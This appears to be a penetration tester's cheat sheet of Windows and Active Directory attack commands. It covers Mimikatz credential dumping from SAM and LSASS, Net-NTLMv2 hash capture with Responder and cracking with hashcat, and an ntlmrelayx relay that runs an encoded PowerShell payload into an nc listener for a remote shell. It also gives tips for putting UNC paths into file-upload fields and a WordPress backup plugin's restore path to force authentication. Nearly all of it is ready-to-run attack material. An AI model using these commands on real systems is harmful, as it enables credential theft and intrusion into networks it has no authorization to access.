 ## Mimikatz (Use when you have Admin Priv)
```
privilege::debug (To check Admin privilege)  
token::elevate (To elevate Admin Privileges to run commands as Admin) 
lsadump::sam (to dump sam passwords from lsass process memory) 
sekurlsa::tickets(AD)  
sekurlsa::logonpasswords (AD) (All users logged in to current system )  
crypto::capi  
crypto::cng

to crack 
Crackstation.net  
Note: Administrator's hash might same for two different machines.

```
### Cracking Net-NTLMv2
(If you are as any user in shell but dont know the password. We can use this to get the password)
Identify username and check if he's in which group  
```
sudo responder -I tun0 (turning on responder and listening on interface tun0 ) ( Responder by default has smbserver )  
dir \\192.168.119.2\test (using dir command to list unknown share which tries to authenticate to responder and we get hash) 
save hash in hash.txt
hashcat -m 5600 paul.hash ~/rockyou.txt --force  
```
```
Tips: Look for file upload functionalities and intercept request. In File_name= parameter add \\\\kaliip\share to get net-ntlm hash in responder
```

## Relaying Net_NTLMv2
We access to Files01 as local user (non-admin) we can setup an relay mech. which doesn't print ntlm hash but forwards that to Files02(Other machine). This is worth if our normal user is admin user on other machine.
```
sudo impacket-ntlmrelayx --no-http-server -smb2support -t "targetipwewantorelay" -c "powershell -encJABjAGwAaQBlAG4AdA..." 
nc -lvnp 4444  
dir \\kaliip\share (In our local user machine)
```
##### Wordpress - backup migration plugin ?
Relaying cmd
```
Where shall the backups be restored > \\kaliip\kali
```
